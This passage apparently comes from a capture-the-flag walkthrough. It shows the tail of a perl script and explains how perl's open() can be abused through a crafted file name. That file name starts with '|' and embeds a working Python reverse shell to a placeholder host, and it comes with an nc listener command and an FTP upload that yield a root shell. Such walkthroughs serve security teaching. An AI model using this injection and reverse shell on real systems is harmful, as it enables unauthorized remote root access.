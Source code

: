 ```perl
      warn "Incorrect number of fields: '$_'\n";
      next;
    }
    print $fh "$_\n";
  }
}

close($fh);
```

... we see that it's a perl script. I don't know perl and reading through the code doesn't tell me what problem there might be in the code so I looked up "common perl vulnerabilities" and found [this article](https://www.cgisecurity.com/lib/sips.html) where the `open()` function used in the script is described as dangerous. To get command execution, we need to create a file whose name starts with `|`, ends with `.csv`, and has our code to be executed in the middle.

```sh
# on your machine
touch "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"YOUR_IP\",YOUR_PORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';echo .csv"
nc -lnvp 1337

# in FTP
put *
```

After some time, we should have a shell as root on the machine.
